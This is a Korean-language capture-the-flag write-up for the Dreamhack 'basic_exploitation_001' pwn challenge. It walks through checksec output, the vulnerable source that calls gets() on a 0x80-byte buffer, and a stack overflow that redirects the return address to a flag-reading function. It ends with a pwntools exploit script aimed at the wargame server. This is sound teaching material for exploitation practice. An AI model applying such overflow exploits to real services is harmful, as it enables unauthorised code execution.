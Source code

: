 # basic_exploitation_001 - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 1
- Provided Files: basic_exploitation_001.c, basic_exploitation_001(ELF)
- tools:
## Brief Description
이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_001)의 바이너리와 소스 코드가 주어집니다.  
프로그램의 취약점을 찾고 익스플로잇해 "flag" 파일을 읽으세요.  
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.  
플래그의 형식은 DH{...} 입니다.
## Initial Analysis
### Environment
``` sh
checksec basic_exploitation_001
Arch:       i386-32-little
RELRO:      No RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```
### Code
``` c
void read_flag() {
    system("cat flag");
}
```
`system("cat flag");`을 실행하여 FLAG를 출력한다.  
``` c
int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}

```
`gets()`함수를 통해 사용자로부터 입력을 받는다. `main()` 함수에 `read_flag()` 함수를 호출하는 로직이 존재하지 않는다.  
## Vulnerability
### BOF(Buffer Overflow)
``` c
gets(buf); // buf size: 0x80
```
`buf`의 크기는 0x80인 반면, 안전하지 않은 `gets()` 함수를 사용하여 BOF 취약점이 발생한다.
## Exploit
### Strategy
canary가 비활성화 되어있어 canary 우회 없이 BOF 취약점을 이용하여 `main()`의 리턴 주소를 덮어쓸 수 있으며, PIE 또한 비활성화 되어 있으므로  `read_flag()` 함수의 주소가 고정된다.  
따라서 `main()`의 리턴 주소를 `read_flag()`로 덮어써 FLAG를 출력시킬 수 있다.  
### Exploitation Steps
``` sh
pwndbg> info functions read_flag
All functions matching regular expression "read_flag":

Non-debugging symbols:
0x080485b9  read_flag
```
`pwndbg`를 통해 read_flag()`의 주소가 `0x080485b9`인 것을 확인할 수 있다.  
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
| ra | 0x4 |
| ebp |  |
| buf | -0x80 |
### payload
``` python
from pwn import *

p = remote('host1.dreamhack.games', 18457) 

read_flag_addr = 0x080485b9

# payload
payload = b''
payload += b'A' * 0x80 + b'B' * 0x4
payload += p32(read_flag_addr)
p.sendline(payload)

p.interactive()
```
